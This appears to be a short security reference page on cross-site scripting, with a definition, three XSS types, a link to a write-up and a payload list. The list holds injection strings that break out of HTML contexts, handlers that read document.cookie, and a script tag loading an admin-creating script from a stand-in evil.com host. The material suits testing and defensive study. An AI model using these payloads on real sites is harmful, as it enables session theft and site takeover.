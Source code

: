 
##### Cross Site Scripting
Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data.

Types of xss :

1. Stored XSS (AKA Persistent or Type I)
2. Reflected XSS (AKA Non-Persistent or Type II)
3. DOM Based XSS (AKA Type-0)

https://sapt.medium.com/stored-xss-non-privileged-user-to-anyone-using-qr-code-dfeb0bd98a5

Payload

    onclick=prompt(document.cookie);
    </title><svg onload="alert(1)"></title>
    <textarea>hi</textarea><svg onload="alert(1)"></textarea>
    <script> let q= 'hi</script><svg onload="alert(1)">';</script>
    <script>alert("1")</script>
    <select><option value="1">en</option></select><svg onload="alert(1)"></option></select>
    qwe<mg src="1>
    "><img src=x onerror=alert(document.cookie)>
    " oneerror="alert(1337)">qwe
    car<img src=1 with="" color=""black=""onerror=alert(1)>
    <script src="http://evil.com/wordpress_create_admin_user.js"></script>

